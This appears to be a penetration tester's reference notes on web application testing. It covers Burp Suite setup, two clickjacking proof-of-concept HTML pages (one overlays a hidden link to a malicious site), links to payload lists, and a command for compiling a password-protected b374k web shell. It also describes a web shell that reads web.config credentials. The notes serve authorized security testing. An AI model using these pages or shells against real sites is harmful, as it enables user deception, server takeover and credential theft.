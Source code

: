 # Webapp Pentesting

Burp "Quick Start" guide
--------
I did a video demo of how to get up and going with Burp quickly in [episode #230](https://7ms.us/7ms-230-pentesting-owasp-juice-shop-part-1/) of the 7 Minute Security podcast.  It includes things like:

* Getting Burp installed
* Installing the SSL cert
* Installing FoxyProxy and proxying traffic through Burp
* Setting up a quick shell script to start Burp from the command line:
  * `java -Xmx2g -jar burpsuite.jar`

* Installing helpful extensions from the BApp store :

 * CO2
 * CSRF Scanner
 * JS Beautifier
 * Retire.js
 * SQLiPy
 * Wsdler

Clickjacking sample
------
# Clickjacking

Here's a good page about [clickjacking](https://www.owasp.org/index.php/Testing_for_Clickjacking_(OTG-CLIENT-009)), and if you need to whip together a quick PoC for a client, I find this one works pretty well:

---

````
<html>
   <head>
     <title>Clickjack test page</title>
   </head>
   <body>
     <p>Website is vulnerable to clickjacking!</p>
     <iframe src="http://www.target.site" width="500" height="500"></iframe>
   </body>
</html>
````

---

As does this one:

````
<html>
<title>This is your totally safe corporate site...OR IS IT?!?!?!?!?!?</title>
  <head>
    <style>
      body {
        position: relative;
        margin: 0;
      }

      iframe, div, a {
        border: none;
        position: absolute;
        width: 100%;
        height: 100%;
      }

      div {
        z-index: 100;
      }

      a {
        display: block;
      }
    </style>
  </head>
  <body>
    <iframe src="https://name-of-site-without-sameorigin-set-correctly.com">
    </iframe>
    <div>
      <a href=" http://www.some-really-really-bad-site.com "></a>
    </div>
  </body>
</html>
````


Payloads
--------

* [PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is "a list of useful payloads and bypass for Web Application Security and Pentest/CTF."

* [XSS-Problems](https://github.com/karelorigin/XSS-Problems/tree/master) will "help you solve problems you might encounter while trying to XSS a target."

Web Shells
--------

## General guidance/usage
This [blog](https://www.aptive.co.uk/blog/unrestricted-file-upload-testing/) gives some great guidance and a checklist for using/abusing Webshells.  

#### Webshells for download

### B374K
One of my fav Web shells is [b374k](https://github.com/b374k/b374k), and as a quick ref, once you clone it from github, you can get a shell compiled pretty quick with:

`php -f index.php -- -o myShell.php -p MyPasswordGoesHere -s -b -z gzcompress -c 9`

### cmdsql
This nice [Webshell](https://github.com/NetSPI/cmdsql) from NetSPI is handy for the following tasks (according to the Web site)

* Execute operating system commands
* Parse web.config files for connection strings (based on root directory)
* Execute MSSQL queries using connection strings recovered from web.config files

Note: the accompanying [blog](https://blog.netspi.com/adding-powershell-to-web-shells-to-get-database-access/) reminds us that this only works on IIS sites that allow execution of .aspx files.
